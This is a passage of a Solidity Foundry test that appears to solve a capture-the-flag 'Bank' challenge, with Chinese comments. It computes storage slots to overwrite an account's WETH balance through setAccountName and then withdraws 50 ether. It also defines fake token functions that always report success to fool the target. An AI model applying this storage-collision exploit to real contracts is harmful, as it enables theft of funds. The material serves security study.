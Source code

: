 ```solidity

        weth = IWETH9(deployHelper_weth(WETH9_Artifact));
        level = ISetup(deployHelper_Setup(address(weth)));
        bank = IBank(level.bank());

        vm.label(address(weth),"weth");
        vm.label(address(level),"level");
        vm.label(address(bank),"bank");
        vm.stopBroadcast();
    }

    function test_isComplete() public{
        unchecked{
            // 先存入一个，之后才能够修改信息
            bank.depositToken(0, address(this), 0);

            // 一系列计算
            bytes32 myArraySlot = keccak256(abi.encode(address(this), 2)); // 找到Account[]长度的位置
            bytes32 myAccountStart = keccak256(abi.encode(myArraySlot)); // 找到第一个Account的初始位置

            // 由于可能覆盖不到，因此需要不断尝试,account是指Accounts[]中第n个account
            uint256 account_n = 0; // 第n个account
            uint256 slotsNeed = 0; // 需要的距离
            while (true) {
                bytes32 accountStart = bytes32(uint(myAccountStart) + 3*account_n); // 找到第n个account的开始位置
                bytes32 accountBalances = bytes32(uint(accountStart) + 2); // 找到`mapping(address => uint) balances`的位置
                bytes32 wethBalance = keccak256(abi.encode(address(weth), accountBalances)); // 找到我们的WETH将会存在的位置

                slotsNeed = uint256(wethBalance) - uint256(myAccountStart);
                if (slotsNeed % 3 == 0) { // 刚好可以覆盖到
                    break;
                }
                // 如果第n个account的位置覆盖不到，则试下一个account
                account_n++;
            }

            // 找到要修改的Account的位置
            uint256 accountId = slotsNeed / 3;

            // 找到了第accountId个Account结构体大小位置
            bank.setAccountName(accountId, "any value");
            // 因为第account_n个account的WETH余额位置刚好可以覆盖，因此我们操作这个account
            bank.withdrawToken(account_n, address(weth), 50 ether);
        }
        assertEq(level.isSolved(), true);
    }

    function transferFrom(address, address, uint256) public returns(bool){
        return true;
    }

    function transfer(address, uint256) public returns(bool){
        return true;
    }

    function balanceOf(address) public returns(uint256){
       if(count01 == 0){
            count01++;
            return 0;
       }else if(count01 == 1){
```